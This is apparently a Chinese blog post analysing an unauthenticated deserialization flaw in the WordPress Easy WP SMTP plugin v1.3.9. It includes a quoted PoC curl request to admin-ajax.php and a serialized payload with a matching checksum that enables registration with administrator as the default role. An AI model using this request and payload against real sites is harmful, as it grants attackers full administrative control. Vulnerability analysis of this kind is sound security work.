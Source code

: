 ```yaml
---
layout: post
title:  "WordPress Easy WP SMTP反序列化漏洞分析"
date:   2019-03-24 16:31:21 +0800
categories: bug
category: bug
---
```


<p>
	<span style="color:#DAA520;"><strong>Wordpress插件Easy WP SMTP最近新出了个漏洞，以前有关注过，好像新的代码变化有点大，所以这里花了点时间简单分析下。</strong></span>
</p>

首先，这个漏洞存在于版本v1.3.9。 我这里能下到最接近的老版本是v1.3.8，可惜v1.3.9更迭了一些重要代码，我找到的版本，应该不能复现这个漏洞。
下面我会根据网上一些细节进行分析，没耐心的大佬可以直接跳到最后看原版的分析。

关键函数位置在：
```
wp-content/plugins/easy-wp-smtp/easy-wp-smtp.php::admin_init
```
这里的函数，可以在用户登入admin界面时进行hook，本来是用来查看删除日志，导入/删除/更新数据库里的配置的。

然而他这里没有对用户权限做严格的验证，甚至没有认证过的游客一样可以触发这个漏洞。
/wp-admin/admin.php的注释里对admin_init解释道：
```
Note, this does not just run on user-facing admin screens. It runs on admin-ajax.php and admin-post.php as well.
```

我们这里在admin-ajax.php处，为了触发漏洞，发送了action=swpsmtp_clear_log的ajax交互请求：

网上给出的poc：
```
$ curl https://VICTIM.COM/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

```

网上的poc是利用函数中的一个导入配置文件的功能：
```
$in_raw = file_get_contents( $_FILES[ 'swpsmtp_import_settings_file' ][ 'tmp_name' ] );
```
在导入以后，他会对文件内容进行一个反序列化解析：
```
$in = unserialize( $in_raw );
```
我们可以使用下面的array:
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
序列化以后成为：
```
"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
```
再次组合array：
```
{
  ["data"]=>
  string(81) "a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}"
  ["checksum"]=>
  string(32) "3ce5fb6d7b1dbd6252f4b5b3526650c8"
}

```
第二次序列化后，将下面的结果，存入我们要上传的文件/tmp/upload.txt里：
```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}
```

简单说下，为何要这么构造呢，因为我们的插件代码里有这么一段：
```
$in = unserialize( $in_raw );
if ( empty( $in[ 'data' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( empty( $in[ 'checksum' ] ) ) {
	 echo $err_msg;
	 wp_die();
}
if ( md5( $in[ 'data' ] ) !== $in[ 'checksum' ] ) {
	 echo $err_msg;
	 wp_die();
}
```
我们可以看到，需要绕过两个部分：
```
unserialize( $in_raw );
unserialize( $in['data'] )
```
经过两次反序列化的结果后，data的内容，也就是下面的数组：
```
{
  ["users_can_register"]=>
  string(1) "1"
  ["default_role"]=>
  string(13) "administrator"
}
```
才能分拆为key-value，进入后续函数：
```
foreach ( $data as $key => $value ) 
{
	    update_option( $key, $value );
}
```

users_can_register是配置的注册启用选项，default_role是默认普通权限，administrator是管理权限。
到这里就明了了，开启注册后，我们注册的普通用户都是管理权限，没必要去取原来的管理密码，反正也解不出来...


下面我们可以跟到更新数据库配置的位置，这就已经到主branch了：
```
/wp-includes/option.php::update_option
```
我们可以看到，里面的key，value的值经过下面的函数过滤，对序列化和拼接做了限制，再者使用的$wpdb进行sql执行update，可以操作的地方就比较有限了：
```
$value = apply_filters( "pre_update_option_{$option}", $value, $old_value, $option );
$value = apply_filters( 'pre_update_option', $value, $option, $old_value );
	
if ( $value === $old_value || maybe_serialize( $value ) === maybe_serialize( $old_value ) ) 
{
	return false;
}

$result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
```
附上数据库wp_options表查询的最初始的默认结果：
![](http://ww1.sinaimg.cn/large/697f6f27ly1g1agtwdr61j210i0dujsn.jpg)

本文可能略显啰嗦，只是为了给小白解释的清楚些，大佬们见谅。

引用文章：

[Critical zero-day vulnerability fixed in WordPress Easy WP SMTP plugin.](https://blog.nintechnet.com/critical-0day-vulnerability-fixed-in-wordpress-easy-wp-smtp-plugin/)
